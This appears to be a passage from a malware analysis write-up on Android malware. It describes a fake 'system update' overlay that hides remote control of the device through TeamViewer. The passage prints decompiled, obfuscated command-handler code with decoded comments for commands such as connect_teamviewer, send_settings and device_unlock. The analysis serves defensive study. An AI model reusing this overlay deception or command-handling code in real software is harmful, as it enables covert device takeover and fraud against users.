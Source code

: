 This an amazing technique which allow the malware to do malicious things even if the user is opening the device. The malware will open an overlay screen which tells the user that `there's a system update you need to wait`. While the overlay screen is set over the screen, the malware will do malicious actions by conneecting to `TeamViewer` app.

<p align="center">
  <img src="2.png" />
</p>
<center><font size="3"> <u>Figure</u>(2): Fake system update<u></u> </font></center>
<br>

```cs
   if(s2.contains(this.a("ZWJkNzMyYWFkYjM1NzUwYWJkYTkxYTVlNDgyMDdlZDhiMGNh"))) {  // connect_teamviewer
                    JSONObject jSONObject6 = new JSONObject(s2);
                    this.a.e(this, this.b.aK, jSONObject6.getString(this.a("ZWJkNzMyYWFkYjM1NzUwYWJkYTkxYTVlNDgyMDdlZDhiMGNh")));  // connect_teamviewer
                    this.a.e(this, this.b.aL, jSONObject6.getString(this.a("ZjhkOTJmYjdjOTM5NzMzMQ==")));  // password
                    this.a.e(this, this.b.aO, jSONObject6.getString(this.a("ZWVkOTM3YTE=")));  // fake
                    this.a.e(this, this.b.aM, jSONObject6.getString(this.a("ZTBkMTM4YTBkYjM4")));  // hidden
                    this.a.e(this, this.b.aN, jSONObject6.getString(this.a("ZWFkNDMzYTdkNTNmNmYzMg==")));  // blocking
                    this.a.f(this);
                    i.f(this, this.a("ZWJkNzMxZWFjYTMzNjAzOGJmYTUxZTQ0NWIzYjM1YzdiYWNiOTZiODljYTY5MTNhZGFlYQ=="));  // com.teamviewer.host.market
                    goto label_5;
                }

                if(s2.contains(this.a("ZTdjODM5YWFlMTIyNjQzNGE0YmExMjU2NDkyYzY5"))) {  // open_teamviewer
                    JSONObject jSONObject7 = new JSONObject(s2);
                    this.a.e(this, this.b.aO, jSONObject7.getString(this.a("ZWVkOTM3YTE=")));  // fake
                    this.a.e(this, this.b.aM, jSONObject7.getString(this.a("ZTBkMTM4YTBkYjM4")));  // hidden
                    this.a.e(this, this.b.aN, jSONObject7.getString(this.a("ZWFkNDMzYTdkNTNmNmYzMg==")));  // blocking
                    this.a.f(this);
                    i.f(this, this.a("ZWJkNzMxZWFjYTMzNjAzOGJmYTUxZTQ0NWIzYjM1YzdiYWNiOTZiODljYTY5MTNhZGFlYQ=="));  // com.teamviewer.host.market
                    goto label_5;
                }

                if(s2.contains(this.a("ZmJkZDMyYTBlMTI1NjQyMWJkYTUxNTU0NGQ="))) {  // send_settings
                    JSONObject jSONObject8 = new JSONObject(s2);
                    this.a.e(this, this.b.aO, jSONObject8.getString(this.a("ZWVkOTM3YTE=")));  // fake
                    this.a.e(this, this.b.aM, jSONObject8.getString(this.a("ZTBkMTM4YTBkYjM4")));  // hidden
                    this.a.e(this, this.b.aN, jSONObject8.getString(this.a("ZWFkNDMzYTdkNTNmNmYzMg==")));  // blocking
                    this.a.f(this);
                    goto label_5;
                }

                if(!s2.contains(this.a("ZWNkZDJhYWRkZDMzNWUyMGE3YTAxNDUwNTU="))) {  // device_unlock
```